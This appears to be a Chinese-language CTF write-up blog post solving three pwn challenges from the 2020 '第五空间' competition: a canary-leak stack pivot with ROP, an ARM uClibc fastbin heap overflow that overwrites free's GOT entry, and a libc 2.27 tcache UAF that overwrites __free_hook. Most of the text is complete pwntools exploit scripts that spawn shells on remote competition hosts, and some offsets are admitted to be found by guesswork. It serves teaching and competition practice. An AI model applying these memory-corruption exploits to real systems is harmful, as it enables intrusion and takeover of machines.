 ```yaml
---
title: 第五空间 2020 Pwn
date: 2020-06-25 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出 堆溢出 UAF
---
```


三道题的题目附件：[5space_attachment.zip](https://xuanxuanblingbling.github.io/assets/pwn/5space_attachment.zip)

## twice

带canary的栈溢出，可以通过puts泄露栈溢出并且出题人会修好溢出泄露时对canary最后一个0字节的破坏。第二次输入时即可栈溢出劫持返回地址，但是因为溢出长度受限无法直接ROP。通过劫持到leave上，进行栈迁移，到输入的缓冲区上进而完成ROP。在ROP中，首先通过puts泄露GOT表进而泄露libc，然后将程序控制流返回到_start上进而继续栈溢出即可劫持控制流到one_gadget上，进而完成控制流劫持。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io = remote("121.36.59.116",9999)
uu64    = lambda data   :u64(data.ljust(8, b'\0'))

# leak canary and stack
io.recvuntil(">");io.send("a"*89);io.recv(89)
canary = uu64('\x00'+io.recv(7))
stack = uu64(io.recv(6))

# stack overflow to leak libc and go back _start
io.recvuntil(">")
payload = p64(0)
payload += p64(0x400923)        # pop rdi
payload += p64(0x601020)        # puts_got
payload += p64(0x4005C0)        # puts
payload += p64(0x400630)        # _start
payload =  payload.ljust(88)    # full the buffer
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(0x400879)        # leave to hijack rsp to buffer addr
io.send(payload)
io.recvline()
libc = uu64(io.recv(6))-0x6f690
log.warn(hex(libc))

# pass the first input
io.recvuntil(">");io.send("a");io.recvuntil(">")

#stack overflow to one gadget
payload = ""
payload = payload.ljust(88)     # fill stack with NULL to satisfy one_gadget
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(libc+0x4526a)    # one_gadget
io.send(payload)

io.interactive()
```

## pwnme

arm的堆溢出，使用的是uclibc，在bss段构造伪堆块并且通过堆溢出将fastbin的fd指向伪堆块，即可将堆块分配到bss段，通过修改bss段的指针数据，即可泄露libc并且修改got表，最终通过修改free的got表为system，然后free掉一个内容是$0的chunk即可getshell。比赛中并没有搭好环境，以下exp为盲测结果，其中的偏移并不知道为何。

```python
from pwn import *
context(log_level='debug',os='linux',arch='arm')
io = remote('121.36.58.215', 1337)
libc = ELF('./libuClibc-1.0.34.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
show        = lambda                     :  (sla(">>> ","1"))
add         = lambda len,data            :  (sla(">>> ","2"),sla("Length:",str(len)),sla("Tag:",data))
edit      	= lambda index,len,data      :  (sla(">>> ","3"),sla("Index:",str(index)),sla("Length:",str(len)),sla("Tag:",data))
delete      = lambda index               :  (sla(">>> ","4"),sla("Tag:",str(index)))

# just try and don't know why to -2
fd = 0x2106c - 8 - 2  
free_got = 0x00021038

# prepare chunks
add(0x40,'a')
add(0x40,'a')
add(0x40,'a')
add(0x40,'$0\x00')

# use heap overflow to modify the fd of fastbin chunk to bss
delete(1)
edit(0,0x88,'a'*0x44+p32(0x48)+p32(fd))

# get the fake chunk and modify bss data to free_got
# just try and don't know why to 34+2
add(0x40,'a')
add(0x40,'a'*(34+2) + p32(free_got))

# print free_got to leak libc
show();io.recvuntil('0 : ')
leak = u32(io.recv(4))
log.success(hex(leak))
libc.address = leak - libc.symbols['free']

# modify free_got to system
edit(0,4,p32(libc.symbols['system']))

# trigger system($0)
delete(3)
io.interactive()
```

## of

libc2.27，有tcache，原题直接给了c源码，在源码中，堆块的使用、申请与释放存在着cookie的保护，使得虽然在释放后存在悬空指针，但是并无法触发UAF或者double free。但是在远程环境中，cookie似乎没有起到任何作用，所以直接通过基本的堆利用的手段，UAF泄露unsorted bin地址以及tcache dup完成泄露libc基址以及任意地址写，最后通过改写__free_hook，完成控制流劫持进而getshell。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
io = remote('121.36.74.70', 9999)
libc = ELF('./libc-2.27.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
add         = lambda index            	 :  (sla("choice:","1"),sla("Index: ",str(index)))
edit        = lambda index,data          :  (sla("choice:","2"),sla("Index: ",str(index)),sla("Content: ",str(data)))
show        = lambda index            	 :  (sla("choice:","3"),sla("Index: ",str(index)))
delete      = lambda index            	 :  (sla("choice:","4"),sla("Index: ",str(index)))
uu64    	= lambda data   :u64(data.ljust(8, b'\0'))

# use unsorted bin to leak libc
for i in range(8): add(i)
for i in range(7): delete(i+1)
delete(0);show(0)
io.recvuntil('Content: ')
libc.address = uu64(io.recv(6))-0x3ebca0

# empty tcache
for i in range(9): add(i)

# use tcache dup to aaw
delete(0)
delete(0)
add(0);edit(0,p64(libc.symbols['__free_hook']))
add(1);
add(2);edit(2,p64(libc.symbols['system']))

# use free(3) trigger system($0)
edit(3,'$0\x00');delete(3)
io.interactive()
```